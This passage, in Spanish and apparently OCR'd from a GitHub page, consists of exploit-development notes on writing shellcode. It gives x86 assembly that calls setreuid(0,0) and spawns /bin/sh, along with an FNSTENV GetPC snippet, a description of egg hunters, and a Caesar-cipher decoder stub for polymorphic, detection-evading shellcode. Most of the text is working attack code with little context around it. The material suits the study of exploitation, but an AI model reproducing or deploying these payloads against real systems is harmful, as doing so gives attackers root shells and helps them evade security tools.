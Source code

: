 **EJ usando el Stack(/bin/sh):**

```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```

**EJ FNSTENV:**

```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```

**Egg Huter:**

Consiste en un pequeño código que recorre las páginas de memoria asociadas a un proceso en busca de la shellcode ahi guardada (busca alguna firma puesta en la shellcode). Útil en los casos en los que solo se tiene un pequeño espacio para inyectar código.

**Shellcodes polimórficos**

Consisten el shells cifradas que tienen un pequeño códigos que las descifran y saltan a él, usando el truco de Call-Pop este sería un **ejemplo cifrado cesar**:

```
global _start
_start:
            jmp short magic
init:
            pop     esi
            xor      ecx, ecx
            mov    cl,0                              ; Hay que sustituir el 0 por la longitud del shellcode (es lo que recorrerá)
desc:
            sub     byte[esi + ecx -1], 0 ; Hay que sustituir el 0 por la cantidad de bytes a restar (cifrado cesar)
            sub     cl, 1
            jnz       desc
            jmp     short sc
magic:
            call init
sc:
            ;Aquí va el shellcode
```
